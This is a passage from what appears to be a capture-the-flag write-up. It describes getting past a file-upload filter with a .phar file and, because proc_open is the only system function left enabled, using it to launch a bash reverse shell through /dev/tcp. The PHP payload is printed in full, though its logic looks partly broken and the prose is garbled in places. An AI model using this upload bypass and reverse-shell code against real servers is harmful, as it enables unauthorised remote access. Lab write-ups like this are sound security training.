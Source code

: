 To test the upload functions, I created a txt file with my tun0 interface IP.

Upload directory
![image](/img/updown-hash.png)   

Our uploaded file
![image](/img/updown-ourfile.png)

It was successfully hit the callback to my server and remove once it's done.
## Foothold

what we can do is we need to bypass the fillers and upload a php file to gain code execution.I uploaded a phar file and got worked up because it wasn't included in the filter list. To see what functions are available, I uploaded the phar file and used the phpinfo function. Unfortunately, normal system functions are disabled except "proc_open.".


Created a revershell with proc_open
```php
<?php

$descriptorspec = array(
  0 => array("pipe", "r"),
  1 => array("pipe", "w"),
  2 => array("file", "/tmp/error-output.txt", "a")
);
$process = proc_open("cat", $descriptorspec, $pipes);
if (is_resource($process)) {

  fwrite($pipes[0], 'echo "bash -i >& /dev/tcp/ip/port 0>&1 " > /tmp/shell.sh | chmod 777 /tmp/shell.sh | sh /tmp/shell.sh');
   /* fwrite writes to stdin, 'cat' will immediately write the data from stdin
   * to stdout and blocks, when the stdout buffer is full. Then it will not
   * continue reading from stdin and php will block here.
   */
  fclose($pipes[0]);
  while (!feof($pipes[1])) {
      $out .= fgets($pipes[1], 1024);
  }
  fclose($pipes[1]);
  $return_value = proc_close($process);
}
?>
```
Referance [http://www.navioo.com/php/docs/function.proc-open.php](http://www.navioo.com/php/docfunction.proc-open.php)
